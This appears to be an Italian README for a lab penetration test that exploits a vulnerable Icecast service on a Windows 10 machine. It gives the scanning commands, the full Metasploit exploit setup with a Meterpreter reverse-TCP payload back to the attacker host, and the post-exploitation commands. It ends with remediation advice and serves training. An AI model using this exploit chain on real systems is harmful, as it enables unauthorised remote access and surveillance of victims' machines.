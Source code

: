 
# 🔐 **Penetration Test con Metasploit e Icecast su Windows 10**

## 🚀 Introduzione
In questo progetto abbiamo condotto un test di penetrazione su una macchina **Windows 10** con il servizio **Icecast** vulnerabile. Utilizzando il framework **Metasploit** su **Kali Linux**, siamo riusciti a ottenere una sessione **Meterpreter**, visualizzare l’indirizzo IP della vittima e catturare uno screenshot del desktop compromesso.

---

## 🎯 Obiettivi
- 🔍 Identificare la macchina vittima (con Icecast vulnerabile).
- ⚙️ Sfruttare la vulnerabilità per ottenere una shell Meterpreter.
- 📡 Visualizzare l’indirizzo IP della vittima dalla sessione Meterpreter.
- 📸 Catturare uno screenshot del desktop della macchina vittima.

---

## 🌐 Ambiente di Lavoro
- **Attaccante (Kali Linux)**: IP `192.168.1.150`
- **Vittima (Windows 10 con Icecast)**: IP `192.168.1.153`
- **Rete**: 192.168.1.0/24

---

## 📜 Passi Seguiti

### 1️⃣ **Scansione della Rete e Identificazione della Vittima**
Abbiamo innanzitutto identificato la macchina vittima nella rete locale con:
```bash
sudo arp-scan --localnet
```
Una volta trovato l’IP della vittima (`192.168.1.153`), abbiamo verificato la porta di default di Icecast (8000):
```bash
nmap -p 8000 192.168.1.153
```

**📸 Screenshot:**  
![nmap](./NMapclose.png)

---

### 2️⃣ **Avvio di Icecast sulla Vittima e Verifica**
Sulla macchina Windows 10 abbiamo:
- Avviato **Icecast**.
- Disattivato temporaneamente il firewall o creato una regola di eccezione per la porta 8000.

Quindi, verificando dal browser:
```
http://192.168.1.153:8000
```
Abbiamo ottenuto una risposta, confermando che Icecast era attivo e rispondeva alle richieste.

**📸 Screenshot:**  
![SCRAIN2](./SCRAIN2.png)

---

### 3️⃣ **Verifica Porta 8000 Aperta**
Nuovamente con nmap:
```bash
nmap -p 8000 192.168.1.153
```
Ora la porta 8000 risultava **open**, confermando che Icecast era accessibile dalla nostra macchina Kali.

**📸 Screenshot:**  
![SCRAIN3](./SCRAIN3.png)


---

### 4️⃣ **Sfruttamento della Vulnerabilità con Metasploit**
Abbiamo avviato Metasploit:
```bash
msfconsole
```
Configurato l’exploit per Icecast:
```bash
use exploit/windows/http/icecast_header
set RHOSTS 192.168.1.153
set RPORT 8000
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.150
set LPORT 4444
exploit
```
![SCRAIN1](./SCRAIN1.png)

**📸 Screenshot della sessione Meterpreter ottenuta:**  
![SCRAIN4](./SCRAIN4.png)

---

### 5️⃣ **Interazione con la Sessione Meterpreter**
Una volta ottenuta la sessione Meterpreter:
- **Visualizzazione dell’indirizzo IP della vittima**:
  ```bash
  meterpreter > ipconfig
  ```
  Questo comando ha mostrato le interfacce di rete e gli indirizzi IP della macchina vittima.

**📸 Screenshot:**  
![SCRAIN7](./SCRAIN7.png)  

- **Cattura di uno screenshot del desktop remoto**:
  ```bash
  meterpreter > screenshot
  ```
  Lo screenshot è stato salvato sulla macchina Kali (ad esempio `/home/kali/OquUbpix.jpeg`).

Per visualizzare l’immagine su Kali:
```bash
xdg-open /home/kali/OquUbpix.jpeg
```

**📸 Screenshot del comando screenshot:**  
![SCRAIN5](./SCRAIN5.png)  

**📸 Visualizzazione dello screenshot:**  
![SCRAIN6](./SCRAIN6.png)  

---

## 🔒 Post-Exploitation & Considerazioni
Dopo aver raggiunto gli obiettivi, abbiamo:
- Chiuso la sessione Meterpreter:
  ```bash
  meterpreter > exit
  ```
- Riattivato il firewall sulla macchina vittima.
- Proposto di aggiornare Icecast all’ultima versione per correggere la vulnerabilità sfruttata.
- Suggerito di implementare regole IDS/IPS e segmentazione di rete per limitare futuri attacchi.

---

## 📝 Conclusioni
Questo test ha dimostrato come una vulnerabilità in un servizio (Icecast) possa fornire a un attaccante l’accesso remoto a una macchina Windows. Con Metasploit siamo riusciti a:
- Identificare la macchina vulnerabile.
- Avviare un exploit contro Icecast.
- Ottenere una shell Meterpreter.
- Visualizzare l’indirizzo IP della vittima.
- Catturare uno screenshot del desktop remoto.

---

## 📂 Allegati
Nella cartella [`/screenshots`](./screenshots/) sono presenti:
- **nmap_scan.png**: Scansione porta 8000 (chiusa).
- **icecast_browser.png**: Risposta dal browser dopo l’avvio di Icecast.
- **nmap_port_open.png**: Scansione porta 8000 (aperta).
- **exploit_failed.png**: Tentativo fallito di exploit.
- **meterpreter_session.png**: Sessione Meterpreter ottenuta.
- **ipconfig_meterpreter.png**: Output del comando ipconfig.
- **screenshot_command.png**: Comando screenshot.
- **screenshot_view.png**: Visualizzazione dello screenshot catturato.

Tutte le immagini completano visivamente il processo descritto.
